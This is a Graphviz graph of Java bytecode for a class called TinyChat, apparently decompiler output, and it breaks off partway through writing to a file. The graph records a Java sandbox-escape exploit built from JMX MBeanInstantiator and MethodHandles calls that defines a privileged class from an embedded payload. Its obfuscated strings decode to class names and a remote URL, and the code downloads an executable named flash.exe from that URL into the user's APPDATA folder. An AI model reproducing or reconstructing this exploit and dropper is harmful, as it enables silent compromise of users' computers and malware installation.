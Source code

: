 digraph "" {
    "r0 := @this: TinyChat"
    "load.r r0"
    "r0 := @this: TinyChat"->"load.r r0";
    "staticget <TinyChat: java.lang.String payload>"
    "load.r r0"->"staticget <TinyChat: java.lang.String payload>";
    "specialinvoke <TinyChat: byte[] lv935ykb9trmyr(java.lang.String)>"
    "staticget <TinyChat: java.lang.String payload>"->"specialinvoke <TinyChat: byte[] lv935ykb9trmyr(java.lang.String)>";
    "store.r r1"
    "specialinvoke <TinyChat: byte[] lv935ykb9trmyr(java.lang.String)>"->"store.r r1";
    "new com.sun.jmx.mbeanserver.JmxMBeanServerBuilder"
    "store.r r1"->"new com.sun.jmx.mbeanserver.JmxMBeanServerBuilder";
    "dup1.r"
    "new com.sun.jmx.mbeanserver.JmxMBeanServerBuilder"->"dup1.r";
    "specialinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: void <init>()>";
    "push \"\""
    "specialinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: void <init>()>"->"push \"\"";
    "push null"
    "push \"\""->"push null";
    "push null"->"push null";
    "virtualinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: javax.management.MBeanServer newMBeanServer(java.lang.String,javax.management.MBeanServer,javax.management.MBeanServerDelegate)>"
    "push null"->"virtualinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: javax.management.MBeanServer newMBeanServer(java.lang.String,javax.management.MBeanServer,javax.management.MBeanServerDelegate)>";
    "checkcast"
    "virtualinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: javax.management.MBeanServer newMBeanServer(java.lang.String,javax.management.MBeanServer,javax.management.MBeanServerDelegate)>"->"checkcast";
    "virtualinvoke <com.sun.jmx.mbeanserver.JmxMBeanServer: com.sun.jmx.mbeanserver.MBeanInstantiator getMBeanInstantiator()>"
    "checkcast"->"virtualinvoke <com.sun.jmx.mbeanserver.JmxMBeanServer: com.sun.jmx.mbeanserver.MBeanInstantiator getMBeanInstantiator()>";
    "store.r r2"
    "virtualinvoke <com.sun.jmx.mbeanserver.JmxMBeanServer: com.sun.jmx.mbeanserver.MBeanInstantiator getMBeanInstantiator()>"->"store.r r2";
    "staticinvoke <java.lang.invoke.MethodHandles: java.lang.invoke.MethodHandles$Lookup publicLookup()>"
    "store.r r2"->"staticinvoke <java.lang.invoke.MethodHandles: java.lang.invoke.MethodHandles$Lookup publicLookup()>";
    "store.r r3"
    "staticinvoke <java.lang.invoke.MethodHandles: java.lang.invoke.MethodHandles$Lookup publicLookup()>"->"store.r r3";
    "load.r r3"
    "store.r r3"->"load.r r3";
    "push class \"Ljava/lang/invoke/MethodHandles$Lookup;\""
    "load.r r3"->"push class \"Ljava/lang/invoke/MethodHandles$Lookup;\"";
    "push class \"Ljava/lang/invoke/MethodHandle;\""
    "push class \"Ljava/lang/invoke/MethodHandles$Lookup;\""->"push class \"Ljava/lang/invoke/MethodHandle;\"";
    "push class \"Ljava/lang/Class;\""
    "push class \"Ljava/lang/invoke/MethodHandle;\""->"push class \"Ljava/lang/Class;\"";
    "push 1"
    "push class \"Ljava/lang/Class;\""->"push 1";
    "newarray"
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "push 0"
    "dup1.r"->"push 0";
    "push class \"Ljava/lang/invoke/MethodType;\""
    "push 0"->"push class \"Ljava/lang/invoke/MethodType;\"";
    "arraywrite.r"
    "push class \"Ljava/lang/invoke/MethodType;\""->"arraywrite.r";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>"
    "arraywrite.r"->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>";
    "store.r r4"
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>"->"store.r r4";
    "new java.lang.String"
    "store.r r4"->"new java.lang.String";
    "new java.lang.String"->"dup1.r";
    "dup1.r"->"load.r r0";
    "push \"NjY2OTZlNjQ0MzZmNmU3Mzc0NzI3NTYzNzQ2Zjcy\""
    "load.r r0"->"push \"NjY2OTZlNjQ0MzZmNmU3Mzc0NzI3NTYzNzQ2Zjcy\"";
    "push \"NjY2OTZlNjQ0MzZmNmU3Mzc0NzI3NTYzNzQ2Zjcy\""->"specialinvoke <TinyChat: byte[] lv935ykb9trmyr(java.lang.String)>";
    "specialinvoke <java.lang.String: void <init>(byte[])>"
    "specialinvoke <TinyChat: byte[] lv935ykb9trmyr(java.lang.String)>"->"specialinvoke <java.lang.String: void <init>(byte[])>";
    "load.r r4"
    "specialinvoke <java.lang.String: void <init>(byte[])>"->"load.r r4";
    "virtualinvoke <java.lang.invoke.MethodHandles$Lookup: java.lang.invoke.MethodHandle findVirtual(java.lang.Class,java.lang.String,java.lang.invoke.MethodType)>"
    "load.r r4"->"virtualinvoke <java.lang.invoke.MethodHandles$Lookup: java.lang.invoke.MethodHandle findVirtual(java.lang.Class,java.lang.String,java.lang.invoke.MethodType)>";
    "push 3"
    "virtualinvoke <java.lang.invoke.MethodHandles$Lookup: java.lang.invoke.MethodHandle findVirtual(java.lang.Class,java.lang.String,java.lang.invoke.MethodType)>"->"push 3";
    "push 3"->"newarray";
    "newarray"->"store.r r4";
    "store.r r4"->"load.r r4";
    "load.r r4"->"push 0";
    "push 0"->"load.r r3";
    "load.r r3"->"arraywrite.r";
    "arraywrite.r"->"load.r r4";
    "load.r r4"->"push 1";
    "load.r r2"
    "push 1"->"load.r r2";
    "load.r r2"->"new java.lang.String";
    "new java.lang.String"->"dup1.r";
    "dup1.r"->"load.r r0";
    "push \"NzM3NTZlMmU2ZjcyNjcyZTZkNmY3YTY5NmM2YzYxMmU2YTYxNzY2MTczNjM3MjY5NzA3NDJlNjk2ZTc0NjU3MjZlNjE2YzJlNDM2ZjZlNzQ2NTc4NzQ=\""
    "load.r r0"->"push \"NzM3NTZlMmU2ZjcyNjcyZTZkNmY3YTY5NmM2YzYxMmU2YTYxNzY2MTczNjM3MjY5NzA3NDJlNjk2ZTc0NjU3MjZlNjE2YzJlNDM2ZjZlNzQ2NTc4NzQ=\"";
    "push \"NzM3NTZlMmU2ZjcyNjcyZTZkNmY3YTY5NmM2YzYxMmU2YTYxNzY2MTczNjM3MjY5NzA3NDJlNjk2ZTc0NjU3MjZlNjE2YzJlNDM2ZjZlNzQ2NTc4NzQ=\""->"specialinvoke <TinyChat: byte[] lv935ykb9trmyr(java.lang.String)>";
    "specialinvoke <TinyChat: byte[] lv935ykb9trmyr(java.lang.String)>"->"specialinvoke <java.lang.String: void <init>(byte[])>";
    "virtualinvoke <com.sun.jmx.mbeanserver.MBeanInstantiator: java.lang.Class findClassWithDefaultLoaderRepository(java.lang.String)>"
    "specialinvoke <java.lang.String: void <init>(byte[])>"->"virtualinvoke <com.sun.jmx.mbeanserver.MBeanInstantiator: java.lang.Class findClassWithDefaultLoaderRepository(java.lang.String)>";
    "virtualinvoke <com.sun.jmx.mbeanserver.MBeanInstantiator: java.lang.Class findClassWithDefaultLoaderRepository(java.lang.String)>"->"arraywrite.r";
    "arraywrite.r"->"load.r r4";
    "push 2"
    "load.r r4"->"push 2";
    "staticget <java.lang.Void: java.lang.Class TYPE>"
    "push 2"->"staticget <java.lang.Void: java.lang.Class TYPE>";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class)>"
    "staticget <java.lang.Void: java.lang.Class TYPE>"->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class)>";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class)>"->"arraywrite.r";
    "arraywrite.r"->"load.r r4";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"
    "load.r r4"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "checkcast"->"push 0";
    "push 0"->"newarray";
    "newarray"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"store.r r4";
    "store.r r4"->"load.r r3";
    "load.r r3"->"push class \"Ljava/lang/invoke/MethodHandles$Lookup;\"";
    "push class \"Ljava/lang/invoke/MethodHandles$Lookup;\""->"new java.lang.String";
    "new java.lang.String"->"dup1.r";
    "dup1.r"->"load.r r0";
    "push \"NjY2OTZlNjQ1NjY5NzI3NDc1NjE2Yw==\""
    "load.r r0"->"push \"NjY2OTZlNjQ1NjY5NzI3NDc1NjE2Yw==\"";
    "push \"NjY2OTZlNjQ1NjY5NzI3NDc1NjE2Yw==\""->"specialinvoke <TinyChat: byte[] lv935ykb9trmyr(java.lang.String)>";
    "specialinvoke <TinyChat: byte[] lv935ykb9trmyr(java.lang.String)>"->"specialinvoke <java.lang.String: void <init>(byte[])>";
    "specialinvoke <java.lang.String: void <init>(byte[])>"->"push 2";
    "push 2"->"newarray";
    "store.r r9"
    "newarray"->"store.r r9";
    "load.r r9"
    "store.r r9"->"load.r r9";
    "load.r r9"->"push 0";
    "push class \"Ljava/lang/String;\""
    "push 0"->"push class \"Ljava/lang/String;\"";
    "push class \"Ljava/lang/String;\""->"arraywrite.r";
    "arraywrite.r"->"load.r r9";
    "load.r r9"->"push 1";
    "push 1"->"push class \"Ljava/lang/invoke/MethodType;\"";
    "push class \"Ljava/lang/invoke/MethodType;\""->"arraywrite.r";
    "arraywrite.r"->"push class \"Ljava/lang/invoke/MethodHandle;\"";
    "push class \"Ljava/lang/invoke/MethodHandle;\""->"push class \"Ljava/lang/Class;\"";
    "push class \"Ljava/lang/Class;\""->"load.r r9";
    "load.r r9"->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>"->"virtualinvoke <java.lang.invoke.MethodHandles$Lookup: java.lang.invoke.MethodHandle findVirtual(java.lang.Class,java.lang.String,java.lang.invoke.MethodType)>";
    "virtualinvoke <java.lang.invoke.MethodHandles$Lookup: java.lang.invoke.MethodHandle findVirtual(java.lang.Class,java.lang.String,java.lang.invoke.MethodType)>"->"dup1.r";
    "dup1.r"->"load.r r2";
    "load.r r2"->"new java.lang.String";
    "new java.lang.String"->"dup1.r";
    "dup1.r"->"load.r r0";
    "push \"NzM3NTZlMmU2ZjcyNjcyZTZkNmY3YTY5NmM2YzYxMmU2YTYxNzY2MTczNjM3MjY5NzA3NDJlNjk2ZTc0NjU3MjZlNjE2YzJlNDc2NTZlNjU3MjYxNzQ2NTY0NDM2YzYxNzM3MzRjNmY2MTY0NjU3Mg==\""
    "load.r r0"->"push \"NzM3NTZlMmU2ZjcyNjcyZTZkNmY3YTY5NmM2YzYxMmU2YTYxNzY2MTczNjM3MjY5NzA3NDJlNjk2ZTc0NjU3MjZlNjE2YzJlNDc2NTZlNjU3MjYxNzQ2NTY0NDM2YzYxNzM3MzRjNmY2MTY0NjU3Mg==\"";
    "push \"NzM3NTZlMmU2ZjcyNjcyZTZkNmY3YTY5NmM2YzYxMmU2YTYxNzY2MTczNjM3MjY5NzA3NDJlNjk2ZTc0NjU3MjZlNjE2YzJlNDc2NTZlNjU3MjYxNzQ2NTY0NDM2YzYxNzM3MzRjNmY2MTY0NjU3Mg==\""->"specialinvoke <TinyChat: byte[] lv935ykb9trmyr(java.lang.String)>";
    "specialinvoke <TinyChat: byte[] lv935ykb9trmyr(java.lang.String)>"->"specialinvoke <java.lang.String: void <init>(byte[])>";
    "specialinvoke <java.lang.String: void <init>(byte[])>"->"virtualinvoke <com.sun.jmx.mbeanserver.MBeanInstantiator: java.lang.Class findClassWithDefaultLoaderRepository(java.lang.String)>";
    "push class \"Ljava/lang/ClassLoader;\""
    "virtualinvoke <com.sun.jmx.mbeanserver.MBeanInstantiator: java.lang.Class findClassWithDefaultLoaderRepository(java.lang.String)>"->"push class \"Ljava/lang/ClassLoader;\"";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class)>"
    "push class \"Ljava/lang/ClassLoader;\""->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class)>";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class)>"->"store.r r9";
    "push 4"
    "store.r r9"->"push 4";
    "push 4"->"newarray";
    "store.r $r38"
    "newarray"->"store.r $r38";
    "load.r $r38"
    "store.r $r38"->"load.r $r38";
    "load.r $r38"->"push 0";
    "push 0"->"load.r r3";
    "load.r r3"->"arraywrite.r";
    "arraywrite.r"->"load.r $r38";
    "load.r $r38"->"push 1";
    "push 1"->"load.r r2";
    "load.r r2"->"new java.lang.String";
    "new java.lang.String"->"dup1.r";
    "dup1.r"->"load.r r0";
    "load.r r0"->"push \"NzM3NTZlMmU2ZjcyNjcyZTZkNmY3YTY5NmM2YzYxMmU2YTYxNzY2MTczNjM3MjY5NzA3NDJlNjk2ZTc0NjU3MjZlNjE2YzJlNDM2ZjZlNzQ2NTc4NzQ=\"";
    "push \"NzM3NTZlMmU2ZjcyNjcyZTZkNmY3YTY5NmM2YzYxMmU2YTYxNzY2MTczNjM3MjY5NzA3NDJlNjk2ZTc0NjU3MjZlNjE2YzJlNDM2ZjZlNzQ2NTc4NzQ=\""->"specialinvoke <TinyChat: byte[] lv935ykb9trmyr(java.lang.String)>";
    "specialinvoke <TinyChat: byte[] lv935ykb9trmyr(java.lang.String)>"->"specialinvoke <java.lang.String: void <init>(byte[])>";
    "specialinvoke <java.lang.String: void <init>(byte[])>"->"virtualinvoke <com.sun.jmx.mbeanserver.MBeanInstantiator: java.lang.Class findClassWithDefaultLoaderRepository(java.lang.String)>";
    "virtualinvoke <com.sun.jmx.mbeanserver.MBeanInstantiator: java.lang.Class findClassWithDefaultLoaderRepository(java.lang.String)>"->"arraywrite.r";
    "arraywrite.r"->"load.r $r38";
    "load.r $r38"->"push 2";
    "push 2"->"new java.lang.String";
    "new java.lang.String"->"dup1.r";
    "dup1.r"->"load.r r0";
    "push \"NjM3MjY1NjE3NDY1NDM2YzYxNzM3MzRjNmY2MTY0NjU3Mg==\""
    "load.r r0"->"push \"NjM3MjY1NjE3NDY1NDM2YzYxNzM3MzRjNmY2MTY0NjU3Mg==\"";
    "push \"NjM3MjY1NjE3NDY1NDM2YzYxNzM3MzRjNmY2MTY0NjU3Mg==\""->"specialinvoke <TinyChat: byte[] lv935ykb9trmyr(java.lang.String)>";
    "specialinvoke <TinyChat: byte[] lv935ykb9trmyr(java.lang.String)>"->"specialinvoke <java.lang.String: void <init>(byte[])>";
    "specialinvoke <java.lang.String: void <init>(byte[])>"->"arraywrite.r";
    "arraywrite.r"->"load.r $r38";
    "load.r $r38"->"push 3";
    "push 3"->"load.r r9";
    "load.r r9"->"arraywrite.r";
    "arraywrite.r"->"load.r $r38";
    "load.r $r38"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "checkcast"->"store.r r9";
    "store.r r9"->"push 4";
    "push 4"->"newarray";
    "newarray"->"store.r $r38";
    "store.r $r38"->"load.r $r38";
    "load.r $r38"->"push 0";
    "push 0"->"load.r r3";
    "load.r r3"->"arraywrite.r";
    "arraywrite.r"->"load.r $r38";
    "load.r $r38"->"push 1";
    "push 1"->"load.r r2";
    "load.r r2"->"new java.lang.String";
    "new java.lang.String"->"dup1.r";
    "dup1.r"->"load.r r0";
    "load.r r0"->"push \"NzM3NTZlMmU2ZjcyNjcyZTZkNmY3YTY5NmM2YzYxMmU2YTYxNzY2MTczNjM3MjY5NzA3NDJlNjk2ZTc0NjU3MjZlNjE2YzJlNDc2NTZlNjU3MjYxNzQ2NTY0NDM2YzYxNzM3MzRjNmY2MTY0NjU3Mg==\"";
    "push \"NzM3NTZlMmU2ZjcyNjcyZTZkNmY3YTY5NmM2YzYxMmU2YTYxNzY2MTczNjM3MjY5NzA3NDJlNjk2ZTc0NjU3MjZlNjE2YzJlNDc2NTZlNjU3MjYxNzQ2NTY0NDM2YzYxNzM3MzRjNmY2MTY0NjU3Mg==\""->"specialinvoke <TinyChat: byte[] lv935ykb9trmyr(java.lang.String)>";
    "specialinvoke <TinyChat: byte[] lv935ykb9trmyr(java.lang.String)>"->"specialinvoke <java.lang.String: void <init>(byte[])>";
    "specialinvoke <java.lang.String: void <init>(byte[])>"->"virtualinvoke <com.sun.jmx.mbeanserver.MBeanInstantiator: java.lang.Class findClassWithDefaultLoaderRepository(java.lang.String)>";
    "virtualinvoke <com.sun.jmx.mbeanserver.MBeanInstantiator: java.lang.Class findClassWithDefaultLoaderRepository(java.lang.String)>"->"arraywrite.r";
    "arraywrite.r"->"load.r $r38";
    "load.r $r38"->"push 2";
    "push 2"->"new java.lang.String";
    "new java.lang.String"->"dup1.r";
    "dup1.r"->"load.r r0";
    "push \"NjQ2NTY2Njk2ZTY1NDM2YzYxNzM3Mw==\""
    "load.r r0"->"push \"NjQ2NTY2Njk2ZTY1NDM2YzYxNzM3Mw==\"";
    "push \"NjQ2NTY2Njk2ZTY1NDM2YzYxNzM3Mw==\""->"specialinvoke <TinyChat: byte[] lv935ykb9trmyr(java.lang.String)>";
    "specialinvoke <TinyChat: byte[] lv935ykb9trmyr(java.lang.String)>"->"specialinvoke <java.lang.String: void <init>(byte[])>";
    "specialinvoke <java.lang.String: void <init>(byte[])>"->"arraywrite.r";
    "arraywrite.r"->"load.r $r38";
    "load.r $r38"->"push 3";
    "push 3"->"push class \"Ljava/lang/Class;\"";
    "push class \"Ljava/lang/Class;\""->"push class \"Ljava/lang/String;\"";
    "push class \"Ljava/lang/String;\""->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push class \"[B\""
    "push 0"->"push class \"[B\"";
    "push class \"[B\""->"arraywrite.r";
    "arraywrite.r"->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>"->"arraywrite.r";
    "arraywrite.r"->"load.r $r38";
    "load.r $r38"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "checkcast"->"push 3";
    "push 3"->"newarray";
    "newarray"->"store.r r2";
    "store.r r2"->"load.r r2";
    "load.r r2"->"push 0";
    "push 0"->"load.r r9";
    "load.r r9"->"push 2";
    "push 2"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push 0"->"load.r r4";
    "load.r r4"->"arraywrite.r";
    "arraywrite.r"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"arraywrite.r";
    "arraywrite.r"->"load.r r2";
    "load.r r2"->"push 2";
    "load.r r1"
    "push 2"->"load.r r1";
    "load.r r1"->"arraywrite.r";
    "arraywrite.r"->"load.r r2";
    "load.r r2"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "virtualinvoke <java.lang.Class: java.lang.Object newInstance()>"
    "checkcast"->"virtualinvoke <java.lang.Class: java.lang.Object newInstance()>";
    "pop"
    "virtualinvoke <java.lang.Class: java.lang.Object newInstance()>"->"pop";
    "pop"->"new java.lang.String";
    "new java.lang.String"->"dup1.r";
    "dup1.r"->"load.r r0";
    "push \"NjE3MDcwNjQ2MTc0NjE=\""
    "load.r r0"->"push \"NjE3MDcwNjQ2MTc0NjE=\"";
    "push \"NjE3MDcwNjQ2MTc0NjE=\""->"specialinvoke <TinyChat: byte[] lv935ykb9trmyr(java.lang.String)>";
    "specialinvoke <TinyChat: byte[] lv935ykb9trmyr(java.lang.String)>"->"specialinvoke <java.lang.String: void <init>(byte[])>";
    "staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>"
    "specialinvoke <java.lang.String: void <init>(byte[])>"->"staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>";
    "staticget <java.io.File: java.lang.String separator>"
    "staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>"->"staticget <java.io.File: java.lang.String separator>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"
    "staticget <java.io.File: java.lang.String separator>"->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"new java.lang.String";
    "new java.lang.String"->"dup1.r";
    "dup1.r"->"load.r r0";
    "push \"NjY2YzYxNzM2ODJlNjU3ODY1\""
    "load.r r0"->"push \"NjY2YzYxNzM2ODJlNjU3ODY1\"";
    "push \"NjY2YzYxNzM2ODJlNjU3ODY1\""->"specialinvoke <TinyChat: byte[] lv935ykb9trmyr(java.lang.String)>";
    "specialinvoke <TinyChat: byte[] lv935ykb9trmyr(java.lang.String)>"->"specialinvoke <java.lang.String: void <init>(byte[])>";
    "specialinvoke <java.lang.String: void <init>(byte[])>"->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"store.r r1";
    "new java.net.URL"
    "store.r r1"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "dup1.r"->"new java.lang.String";
    "new java.lang.String"->"dup1.r";
    "dup1.r"->"load.r r0";
    "push \"Njg3NDc0NzAzYTJmMmY3NDY5NmU3OTYzNjg2MTc0MmU2MjY5N2EyZjY2NmM2MTczNjgyZTY1Nzg2NQ==\""
    "load.r r0"->"push \"Njg3NDc0NzAzYTJmMmY3NDY5NmU3OTYzNjg2MTc0MmU2MjY5N2EyZjY2NmM2MTczNjgyZTY1Nzg2NQ==\"";
    "push \"Njg3NDc0NzAzYTJmMmY3NDY5NmU3OTYzNjg2MTc0MmU2MjY5N2EyZjY2NmM2MTczNjgyZTY1Nzg2NQ==\""->"specialinvoke <TinyChat: byte[] lv935ykb9trmyr(java.lang.String)>";
    "specialinvoke <TinyChat: byte[] lv935ykb9trmyr(java.lang.String)>"->"specialinvoke <java.lang.String: void <init>(byte[])>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "specialinvoke <java.lang.String: void <init>(byte[])>"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>";
    "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"->"virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>";
    "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"->"store.r r2";
    "new java.io.BufferedOutputStream"
    "store.r r2"->"new java.io.BufferedOutputStream";
    "new java.io.BufferedOutputStream"->"store.r r4";
    "store.r r4"->"load.r r4";
    "new java.io.FileOutputStream"
    "load.r r4"->"new java.io.FileOutputStream";
    "new java.io.FileOutputStream"->"dup1.r";
    "dup1.r"->"load.r r1";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"
    "load.r r1"->"specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>";
    "push 1024"
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"->"push 1024";
    "specialinvoke <java.io.BufferedOutputStream: void <init>(java.io.OutputStream,int)>"
    "push 1024"->"specialinvoke <java.io.BufferedOutputStream: void <init>(java.io.OutputStream,int)>";
